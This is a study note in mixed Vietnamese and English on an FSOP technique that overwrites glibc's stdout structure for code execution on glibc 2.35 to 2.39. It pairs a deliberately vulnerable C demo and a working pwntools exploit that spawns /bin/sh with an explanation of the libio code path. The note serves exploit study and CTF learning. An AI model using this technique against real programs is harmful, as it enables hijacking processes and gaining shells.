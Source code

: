 
<details>
<summary><strong>Description</strong></summary>
<p>

Overwrite `stdout` in libc region (at least `0xE0` bytes).
> Test succesfully in `glibc 2.35`, `2.38`, `2.39` (same code path)

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://aneii11.github.io/p/fsop-code-execution/
- https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#3---the-fsop-way-targetting-stdout

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

## Demo code C

Chỉ cần compile code C theo hướng dẫn shogun (dựa theo version glibc):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("libc leak: %lx\n", stdout);
    read(0, stdout, 0xE0);
    puts("trigger");

    return 0;
}
```

Cho libc leak và ghi đè trực tiếp lên `stdout`, gọi `puts()` (hoặc bất kì hàm nào làm việc với `stdout`) để trigger fsop.

## Demo exploit 

Compile binary trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 123
b *main + 138
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(b"0x" + p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

system = libc_base + libc.symbols['system']
add_rdi_0x10_jmp_rcx = libc_base + 0x000000000013b0d0
_IO_stdfile_1_lock = libc_base + libc.symbols['_IO_stdfile_1_lock']
_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']
fake_vtable = libc_base + libc.symbols['_IO_wfile_jumps'] - 0x18

fake_stdout = [p64(0x3b01010101010101), # _flags
               p64(0),
               p64(system), # _IO_read_end
               p64(0) * 3,
               b"/bin/sh\x00", # _IO_write_end
               p64(0) * 2,
               p64(add_rdi_0x10_jmp_rcx), # _IO_save_base
               p64(0) * 7,
               p64(_IO_stdfile_1_lock), # _lock
               p64(0),
               p64(_IO_2_1_stdout_ + 0xb8), # _codecvt
               p64(_IO_2_1_stdout_ + 0x200), # _wide_data
               p64(0) * 2 + p64(_IO_2_1_stdout_ + 0x20) + p64(0) * 3, # padding the __pad5
               p64(fake_vtable) # vtable
               ]
payload = b"".join(fake_stdout)
p.send(payload)

p.interactive()
```

<mark>Với mỗi version glibc, exploit chỉ cần sửa lại đoạn tính toán `libc_base` và offset của gadget  `add_rdi_0x10_jmp_rcx`</mark>.

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

## Call `_IO_wfile_underflow`

<mark>The usual stream of most function using `stdout` is to call `_IO_xsputn`</mark> through `_IO_file_jumps`, which is a `_IO_jump_t` vtable:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libioP.h#L294)
![](attachments/image00.png)

~~The exploit shift the vtable back 3 functions, which turn `__xsputn` into `__underflow` entry.~~
Có vẻ an3eii nhầm chỗ này, exploit fake vtable về địa chỉ `&_IO_wfile_jumps - 0x18` mục đích là để chương trình thay vì gọi `_IO_new_file_xsputn` sẽ gọi `_IO_wfile_underflow`.

![](attachments/image01.png)

Ở trên là vtable gốc, ở dưới là vtable fake, offset cách một đoạn lớn nhưng vẫn validate vì thuộc vùng vtable, chứ không hẳn là "shift back 3 functions".

## Bypass flag check and call `__libio_codecvt_in`

Bên trong hàm `_IO_wfile_underflow`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wfileops.c#L111)
![](attachments/image02.png)

The exploit manages to call `__libio_codecvt_in`, which take the first argument being `_IO_2_1_stdout_->_codecvt`. I’ll talk later what’s inside `__libio_codecvt_in`. 

But now, take a look at how the exploit bypass all the flag check to get to its desired call.

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libio.h#L66)
![](attachments/image03.png)

There’re 3 conditions need to be met to reach to `__libio_codecvt_in`:

- As decleared as macros, `_IO_EOF_SEEN` and `_IO_NO_READS` being `0x0010` and `0x0004` respectively. Those flags need to be <mark>turned off</mark>, as in `_IO_wfile_underflow`. The exploit’s flag is `fake.flags = 0x3b01010101010101`, which passed both checks (có thể đổi flag khác).

- The `_IO_wide_data` is also checked (`fp->_wide_data->_IO_read_ptr < fp->_wide_data->_IO_read_end`), however we set `fp->wide_data = nullbuf` (null region) so it easily passes the check (dấu `=` sẽ xảy ra -> pass điều kiện).

- Last one, `fp->_IO_read_ptr < _IO_read_end`: we did not set `fp->_IO_read_ptr`, but `_IO_read_end`, so it is `0`, which passed the check (có thể đổi giá trị khác miễn là thỏa mãn điều kiện để nhảy vào trong `if`).

## Inside `__libio_codecvt_in`

Bên trong `__libio_codecvt_in`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/iofwide.c#L160)
![](attachments/image04.png)

Yes  `DL_CALL_FCT(fct, (gs, ..))` will actually call the func `fct(gs, ....)`

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/bits/dlfcn.h#L54)
![](attachments/image05.png)

Yes, our function pointer is finally here. As described, it calls `(*fctp) (arg1,arg2);`. But first, what is `fct`?. We don’t care about what it is, but we need to know how they control that.

First, it gets `gs = codecvt->__cd_in.step`, fortunately is at offset 0 of `codecvt` (confirmed). As I debug, `codecvt` point back to `_IO_2_1_stdout_+32`:

![](attachments/image06.png)

Then, it takes `fct = gs->__fct`, which lies at offset `0x28` (or 5 `qword`)

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/iconv/gconv.h#L84)
![](attachments/image07.png)

Take a look back at my gdb, at offset `0x28` from `*gs` is gadget `add rdi, 0x10, jmp rcx`. Our current `rdi` is at `*gs`, and `+0x10` means `rdi` will contain `"/bin/sh"`. Meanwhile, `rcx` already pointed to `system`. Voila!

(Debug by yourself)

![](attachments/image08.png)
![](attachments/image09.png)
![](attachments/image10.png)

</p>
</details>

<details>
<summary><strong>Attention</strong></summary>
<p>

Also one thing to note, we need to padding the `__pad5` of `stdout` to write section, or else the exploit won't work.

</p>
</details>